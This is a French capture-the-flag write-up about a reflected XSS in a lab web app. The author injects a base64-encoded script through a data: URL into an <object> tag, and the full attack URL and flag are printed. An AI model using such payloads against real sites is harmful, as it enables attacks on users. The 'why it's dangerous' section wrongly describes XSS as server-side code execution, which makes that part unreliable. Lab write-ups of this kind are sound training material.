 # Reflected XSS

En cliquant sur la troisième image (NSA) sur la page d'index on arrive sur la page:

`http://192.168.56.101/?page=media&src=nsa`

On y découvre une image affichée grâce à une balise `<object>`

Après lecture de cet article: https://portswigger.net/web-security/cross-site-scripting#reflected-cross-site-scripting

> Reflected XSS is the simplest variety of cross-site scripting. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.
> Here is a simple example of a reflected XSS vulnerability:
> ```
> https://insecure-website.com/status?message=All+is+well.
> <p>Status: All is well.</p>
> ```

On va donc essayer d'injecter le payload suivant:
`<script>alert(1)</script>`

Comme on veut l'injecter dans la propriété `data` de `object`, on va devoir le convertir en `base64`:
`PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`

(Converti par https://www.base64decode.org)

Ce qui nous donne l'url suivante pour attaquer:

http://192.168.56.101/index.php?page=media&src=%22data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%22

On obtient le flag:
```
928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```

# Why it's dangerous

L'attaquant peut éxécuter le code qu'il souhaite sur le serveur de production. Avoir accès à des fichiers confidentiels. Faire tourner un logiciel malveillant etc ...

# How to fix it

Utiliser une balise HTML `img` qui prend en paramètre l'URL de l'image en question. Avoir un CDN, stocker les images dans le front ou vérifier l'input dans le backend.
